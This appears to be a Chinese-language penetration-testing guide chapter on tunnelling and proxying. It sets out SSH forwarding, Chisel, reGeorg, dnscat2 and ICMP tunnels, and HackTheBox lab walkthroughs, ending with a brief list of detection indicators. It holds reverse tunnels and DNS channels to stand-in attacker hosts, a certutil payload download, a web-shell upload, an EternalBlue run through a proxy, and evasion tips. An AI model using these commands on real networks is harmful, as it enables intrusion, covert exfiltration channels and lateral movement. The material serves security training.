

# 隧道和代理状态机

## 概述
隧道和代理技术用于绕过网络限制、建立隐蔽通信通道、实现内网穿透。本状态机涵盖 SSH 隧道、端口转发、SOCKS 代理、DNS 隧道等技术。

## 攻击流程图



## 状态转换表

| 当前状态 | 条件 | 动作 | 下一状态 | 工具 |
|---------|------|------|---------|------|
| 网络分析 | 内网隔离 | 建立隧道 | 隧道选择 | - |
| 网络分析 | 出站限制 | 测试可用协议 | 隧道选择 | - |
| 隧道选择 | SSH 可用 | SSH 隧道 | 端口转发 | ssh |
| 隧道选择 | HTTP 可用 | HTTP 隧道 | 代理建立 | chisel, reGeorg |
| 隧道选择 | DNS 可用 | DNS 隧道 | 隐蔽通道 | dnscat2, iodine |
| SSH 隧道 | 本地转发 | -L 参数 | 访问内网 | ssh |
| SSH 隧道 | 远程转发 | -R 参数 | 反向代理 | ssh |
| SSH 隧道 | 动态转发 | -D 参数 | SOCKS 代理 | ssh |
| 隧道建立 | 成功 | 配置代理 | 内网访问 | proxychains |
| 内网访问 | 可达 | 横向移动 | 攻击内网 | - |

## 决策树

### 1. 隧道技术选择
```
IF SSH 服务可用
  THEN 使用 SSH 隧道
    # 本地端口转发（访问内网服务）
    ssh -L local_port:target_ip:target_port user@jump_host

    # 远程端口转发（反向代理）
    ssh -R remote_port:localhost:local_port user@attacker_ip

    # 动态端口转发（SOCKS 代理）
    ssh -D 1080 user@jump_host

ELSE IF HTTP/HTTPS 可用
  THEN 使用 HTTP 隧道
    # Chisel
    # 服务端（攻击者）
    chisel server -p 8080 --reverse

    # 客户端（目标）
    chisel client attacker_ip:8080 R:socks

    # reGeorg
    # 上传 tunnel.jsp/tunnel.php
    # 启动客户端
    python reGeorgSocksProxy.py -u http://target/tunnel.jsp -p 1080

ELSE IF DNS 可用
  THEN 使用 DNS 隧道
    # dnscat2
    # 服务端
    dnscat2-server attacker.com

    # 客户端
    dnscat2 attacker.com

    # iodine
    # 服务端
    iodined -f 10.0.0.1 tunnel.attacker.com

    # 客户端
    iodine -f tunnel.attacker.com

ELSE IF ICMP 可用
  THEN 使用 ICMP 隧道
    # ptunnel
    # 服务端
    ptunnel -x password

    # 客户端
    ptunnel -p proxy_ip -lp 8000 -da target_ip -dp 80 -x password
```

### 2. SSH 隧道类型选择
```
IF 需要访问内网单个服务
  THEN 使用本地端口转发
    # 访问内网 RDP
    ssh -L 3389:internal_ip:3389 user@jump_host
    # 本地访问: rdesktop localhost:3389

    # 访问内网 Web
    ssh -L 8080:internal_ip:80 user@jump_host
    # 本地访问: http://localhost:8080

ELSE IF 需要从外网访问内网
  THEN 使用远程端口转发
    # 将内网服务暴露到公网
    ssh -R 8080:localhost:80 user@attacker_ip
    # 攻击者访问: http://attacker_ip:8080

ELSE IF 需要访问多个内网服务
  THEN 使用动态端口转发（SOCKS）
    # 建立 SOCKS 代理
    ssh -D 1080 user@jump_host

    # 配置 proxychains
    echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf

    # 通过代理访问内网
    proxychains nmap -sT 192.168.1.0/24
    proxychains firefox  # 浏览器访问内网
```

### 3. 代理链配置
```
IF 需要多层代理
  THEN 配置代理链
    # proxychains 配置
    cat >> /etc/proxychains4.conf << EOF
    [ProxyList]
    socks5 127.0.0.1 1080  # SSH 隧道
    http 127.0.0.1 8080    # HTTP 代理
    EOF

    # 使用代理链
    proxychains curl http://internal_service

ELSE IF 需要透明代理
  THEN 使用 iptables 重定向
    # 重定向所有流量到 SOCKS 代理
    iptables -t nat -A OUTPUT -p tcp -j REDIRECT --to-ports 1080
```

### 4. 隧道稳定性维护
```
IF 隧道断开
  THEN 自动重连
    # SSH 自动重连
    while true; do
      ssh -D 1080 -N user@jump_host
      sleep 5
    done

    # 或使用 autossh
    autossh -M 0 -D 1080 -N user@jump_host

ELSE IF 需要[持久化](11-post-exploitation-persistence.md)隧道
  THEN 创建 systemd 服务
    cat > /etc/systemd/system/ssh-tunnel.service << EOF
    [Unit]
    Description=SSH Tunnel
    After=network.target

    [Service]
    ExecStart=/usr/bin/ssh -D 1080 -N user@jump_host
    Restart=always

    [Install]
    WantedBy=multi-user.target
    EOF

    systemctl enable ssh-tunnel
    systemctl start ssh-tunnel
```

## 实战场景

### 场景 1: SSH 本地端口转发访问内网 RDP
**HTB 靶机**: Reel

**攻击链路**:
1. 获得跳板机 SSH 访问
   ```bash
   ssh nico@10.10.10.77
   ```

2. 发现内网主机
   ```bash
   # 在跳板机上
   ip addr
   # 发现内网: 172.16.1.0/24
   ```

3. 扫描内网
   ```bash
   for i in {1..254}; do ping -c 1 172.16.1.$i & done
   # 发现: 172.16.1.100
   ```

4. 建立本地端口转发
   ```bash
   # 在 Kali 上
   ssh -L 3389:172.16.1.100:3389 nico@10.10.10.77
   ```

5. 连接内网 RDP
   ```bash
   rdesktop localhost:3389
   ```

### 场景 2: SSH 动态端口转发 + proxychains
**HTB 靶机**: Vault

**攻击链路**:
1. 建立 SOCKS 代理
   ```bash
   ssh -D 1080 -N dave@10.10.10.109
   ```
   - `-D 1080`: 在本地 1080 端口建立 SOCKS5 代理
   - `-N`: 不执行远程命令

2. 配置 proxychains
   ```bash
   echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf
   ```

3. 通过代理扫描内网
   ```bash
   proxychains nmap -sT -Pn 192.168.122.0/24
   ```

4. 通过代理访问内网 Web
   ```bash
   proxychains firefox
   # 访问: http://192.168.122.4
   ```

5. 通过代理攻击内网主机
   ```bash
   proxychains msfconsole
   > use exploit/windows/smb/ms17_010_eternalblue
   > set RHOSTS 192.168.122.4
   > set PROXIES socks5:127.0.0.1:1080
   > exploit
   ```

### 场景 3: Chisel HTTP 隧道
**HTB 靶机**: Fuse

**攻击链路**:
1. 在 Kali 启动 Chisel 服务端
   ```bash
   chisel server -p 8080 --reverse
   ```

2. 上传 Chisel 客户端到目标
   ```bash
   # 在目标 Windows 上
   certutil -urlcache -f http://10.10.14.5/chisel.exe C:\Windows\Temp\chisel.exe
   ```

3. 在目标上启动客户端
   ```cmd
   C:\Windows\Temp\chisel.exe client 10.10.14.5:8080 R:socks
   ```

4. 配置 proxychains
   ```bash
   echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf
   ```

5. 访问内网
   ```bash
   proxychains crackmapexec smb 10.10.10.0/24
   ```

### 场景 4: reGeorg Web 隧道
**HTB 靶机**: Kotarak

**攻击链路**:
1. 上传 reGeorg tunnel 脚本
   ```bash
   # 根据目标环境选择
   # tunnel.jsp (Tomcat)
   # tunnel.php (Apache/Nginx)
   # tunnel.aspx (IIS)

   curl --upload-file tunnel.jsp http://target/manager/text/deploy?path=/tunnel
   ```

2. 启动 reGeorg 客户端
   ```bash
   python reGeorgSocksProxy.py -u http://target/tunnel.jsp -p 1080
   ```

3. 配置 proxychains
   ```bash
   echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf
   ```

4. 通过隧道访问内网
   ```bash
   proxychains nmap -sT 192.168.1.0/24
   ```

### 场景 5: dnscat2 DNS 隧道
**HTB 靶机**: Resolute

**攻击链路**:
1. 在 Kali 启动 dnscat2 服务端
   ```bash
   dnscat2-server tunnel.attacker.com
   ```
   记录密钥: `secret_key`

2. 在目标上启动客户端
   ```bash
   # Linux
   ./dnscat tunnel.attacker.com --secret=secret_key

   # Windows
   dnscat2.exe tunnel.attacker.com --secret=secret_key
   ```

3. 在服务端建立会话
   ```bash
   dnscat2> sessions
   dnscat2> session -i 1
   ```

4. 建立端口转发
   ```bash
   command (session_1) > listen 127.0.0.1:3389 192.168.1.100:3389
   ```

5. 访问内网服务
   ```bash
   rdesktop localhost:3389
   ```

### 场景 6: SSH 远程端口转发（反向代理）
**HTB 靶机**: Sneaky

**攻击链路**:
1. 在目标机器上建立反向隧道
   ```bash
   # 目标机器（内网）
   ssh -R 8080:localhost:80 attacker@10.10.14.5
   ```
   - 将目标的 80 端口映射到攻击者的 8080 端口

2. 在攻击者机器上访问
   ```bash
   curl http://localhost:8080
   # 访问到目标的 80 端口
   ```

3. 或建立反向 SOCKS 代理
   ```bash
   # 目标机器
   ssh -R 1080 attacker@10.10.14.5

   # 攻击者配置 proxychains
   echo "socks5 127.0.0.1 1080" >> /etc/proxychains4.conf

   # 通过目标访问其内网
   proxychains nmap -sT 192.168.1.0/24
   ```

## 工具对比

| 工具 | 协议 | 优势 | 劣势 | 使用场景 |
|------|------|------|------|---------|
| **SSH** | SSH | 加密，稳定，原生 | 需要 SSH 服务 | 有 SSH 访问时首选 |
| **Chisel** | HTTP/HTTPS | 跨平台，易用 | 需要上传客户端 | HTTP 出站可用 |
| **reGeorg** | HTTP/HTTPS | Web shell 即可 | 速度较慢 | 只有 Web 访问 |
| **dnscat2** | DNS | 隐蔽性高 | 速度慢，不稳定 | 严格防火墙环境 |
| **iodine** | DNS | 建立虚拟网卡 | 需要 root 权限 | 需要完整网络层 |
| **ptunnel** | ICMP | 极度隐蔽 | 速度极慢 | 其他协议都被封 |
| **socat** | 多协议 | 灵活强大 | 配置复杂 | 高级场景 |

## 关键技巧

### 1. SSH 隧道高级用法
```bash
# 多级跳转
ssh -J jump1,jump2 target

# 保持连接
ssh -o ServerAliveInterval=60 -D 1080 user@host

# 后台运行
ssh -f -N -D 1080 user@host

# 组合使用
ssh -L 3389:internal:3389 -D 1080 -R 8080:localhost:80 user@jump
```

### 2. proxychains 优化
```bash
# 配置文件 /etc/proxychains4.conf
dynamic_chain  # 动态链，跳过死代理
proxy_dns      # DNS 也走代理
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
socks5 127.0.0.1 1080
```

### 3. 隧道性能优化
```bash
# SSH 压缩
ssh -C -D 1080 user@host

# Chisel 压缩
chisel client --max-retry-count 5 attacker:8080 R:socks

# 多隧道负载均衡
# 使用 haproxy 或 nginx 分发流量
```

### 4. 隧道隐蔽性
```bash
# SSH 使用非标准端口
ssh -p 443 -D 1080 user@host

# Chisel 使用 HTTPS
chisel server --port 443 --reverse --tls-key key.pem --tls-cert cert.pem

# DNS 隧道使用合法域名
dnscat2-server legitimate-looking-domain.com
```

## 防御检测

**攻击者视角的防御绕过**:
- 使用加密隧道避免流量检测
- 使用合法端口（80/443）
- 使用 DNS/ICMP 等隐蔽协议
- 限制流量速率避免异常
- 使用域前置技术

**防御者检测指标**:
- 异常的 SSH 连接（大量数据传输）
- 异常的 DNS 查询（大量子域名）
- 异常的 ICMP 流量
- 长时间的 HTTP 连接
- 异常的出站连接
- 加密流量特征分析

## 相关状态机
- [01-network-service-enumeration.md](01-network-service-enumeration.md) - 发现可用服务
- [11-post-exploitation-persistence.md](11-post-exploitation-persistence.md) - 建立持久隧道
- [04-active-directory-attack.md](04-active-directory-attack.md) - 通过隧道横向移动
- [10-network-sniffing-mitm.md](10-network-sniffing-mitm.md) - 隧道流量分析
